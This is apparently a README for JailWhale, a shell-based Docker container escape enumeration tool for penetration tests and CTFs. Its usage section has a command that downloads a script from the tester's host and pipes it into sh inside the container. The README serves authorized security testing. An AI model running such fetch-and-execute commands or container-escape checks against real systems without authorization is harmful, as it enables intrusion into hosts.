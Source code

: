 # JailWhale

Docker escape enumeration tool to be used when you end up in a docker container during a penetration test. I tried to minimize the dependencies, so a common linux-based system with `sh` should be able to run JailWhale. Further checks and methods to be added, when I encounter new techniques in CTFs (pull requests welcome).

### Usage

```bash
# On your host
python -m http.server 8080
# In the container
curl http://<YOUR_IP>:8080/JailWhale.sh | sh
```

### Sample Output

<img src="doc/JailWhale.png">

### TODO

* More CVE-checks
* More hints on exploiting capabilities
* Add other techniques

### Credits
Much love to https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout for documenting various techniques
